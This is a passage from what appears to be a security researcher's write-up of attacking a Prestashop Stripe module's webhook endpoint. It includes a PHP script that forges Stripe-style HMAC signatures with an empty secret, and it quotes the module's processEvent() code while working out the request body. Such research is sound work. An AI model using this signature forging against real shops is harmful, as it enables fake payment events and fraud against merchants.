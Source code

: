 First, I tried to rawdog the hash generation with python, but failed miserably due to formatting.

I then decided to craft a PHP script that will generate the hash for us with the JSON body in the same way we pass to Prestashop server.

```php
<?php

$secret = ''; // [13]

$headers = getallheaders();

$timestamp = isset($headers['X-Timestamp']) ? $headers['X-Timestamp'] : null; // [14]
if (!$timestamp) {
    http_response_code(400);
    echo json_encode(['error' => 'Missing X-Timestamp header']);
    exit;
}

$req_body = file_get_contents('php://input'); // [15]

if (json_decode($req_body, true) === null && json_last_error() !== JSON_ERROR_NONE) {
    http_response_code(400);
    echo json_encode(['error' => 'Invalid JSON body']);
    exit;
}

$payload = $timestamp . '.' . $req_body;

$signature = hash_hmac('sha256', $payload, $secret);

$formatted = 't=' . $timestamp . ',v1=' . $signature;

header('Content-Type: text/plain');
echo $formatted;
```

1. Assigned the empty secret `[13]`
2. Takes the timestamp from the header `[14]`
3. The request body is taken for hash generation `[15]`

Just hosting this PHP script on our server and providing a proper request body responded with the hash we needed to attack.

**Wait, what should be the JSON body?**

This was the final problem we needed to tackle. For this, we need to go back to the `processEvent()` function. 

```php
public function processEvent($content, $signatureHeader, $webhookSecret): void
{
    $data = json_decode($content, true);
    $contentAnonymized = $this->stripeAnonymize->anonymize($data);
    $eventType = $data['type'] ?? null;
    if (!$this->isSupportedEvent($eventType)) {
        return;
    }

    $event = $this->getStripeEvent($content, $signatureHeader, $webhookSecret);
    if (!$event) {
        StripeProcessLogger::logError('Not a valid stripe event => ' . $contentAnonymized, 'WebhookEventHandler', null);

        return;
    }

```

[steelcon slides]: /assets/talks/steelcon-2025-slides.pdf